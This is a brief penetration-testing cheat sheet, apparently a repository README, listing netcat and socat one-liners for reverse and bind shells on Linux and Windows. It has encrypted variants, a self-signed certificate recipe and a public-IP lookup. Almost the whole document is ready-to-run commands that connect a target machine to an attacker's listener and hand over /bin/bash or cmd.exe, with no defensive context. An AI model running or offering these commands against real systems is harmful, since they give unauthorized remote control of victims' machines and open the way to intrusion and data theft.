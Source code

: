 # tools

## Reverse Shells
Recipes for reverse shells from A to target B:

### Netcat
A: `nc -nlvp 4444`  
B: `nc -nv $A_IP $PORT -e /bin/bash`  

### Socat
#### Unencrypted
A: `socat -d -d TCP4-LISTEN:$PORT STDOUT`  
B (Linux): `socat TCP4:$A_IP:$PORT EXEC:/bin/bash`  
B (Windows): `socat TCP4:$A_IP:4433 EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat -d -d OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork STDOUT`  
B (Linux): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:/bin/bash`  
B (Windows): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:'cmd.exe',pipes`  

## Bind Shells
Recipes for bind shells from A to target B:  

### Netcat
A: `nc -nv $B_IP $PORT`  
B: `nc -nlvp $PORT -e /bin/bash`  

### Socat
#### Unencrypted
A: `socat - TCP4:$B_IP:$PORT`  
B (Linux): `socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash`  
B (Windows): `socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat - OPENSSL:$B_IP:$PORT,verify=0 STDOUT`  
B machine (Linux): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:/bin/bash`  
B machine (Windows): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:'cmd.exe',pipes`  

## Self-Signed SSL Certificate
`openssl req -newkey rsa:2048 -nodes -keyout cert.key -x509 -days 10 -out cert.crt && cat cert.key cert.crt > cert.pem`  

## Get Public IP
To get your public IP address on Linux run `dig +short myip.opendns.com @resolver1.opendns.com`  
